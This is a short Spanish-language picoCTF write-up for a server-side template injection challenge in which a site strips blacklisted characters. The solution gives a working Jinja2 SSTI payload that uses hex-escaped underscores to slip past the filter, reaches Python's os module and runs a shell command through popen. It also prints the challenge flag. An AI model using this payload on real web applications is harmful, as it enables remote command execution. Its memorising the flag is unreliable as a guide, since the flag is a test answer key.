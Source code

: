 #### Descripción

I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)
###### Pistas
- Server Side Template Injection
- Why is blacklisting characters a bad idea to sanitize input?

#### Solución 
Para este reto es igual a el SSTI 1 solo que aqui hay como una lista negra de los strings que son removidos por lo cual unicamente hay que modificar la inyeccion anterior para que lo detecte de otra forma: `{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('grep picoCTF . -rnw')|attr('read')()}}` asi obtenemos la flag.

```
# picoCTF{sst1_f1lt3r_byp4ss_96a02202}
```

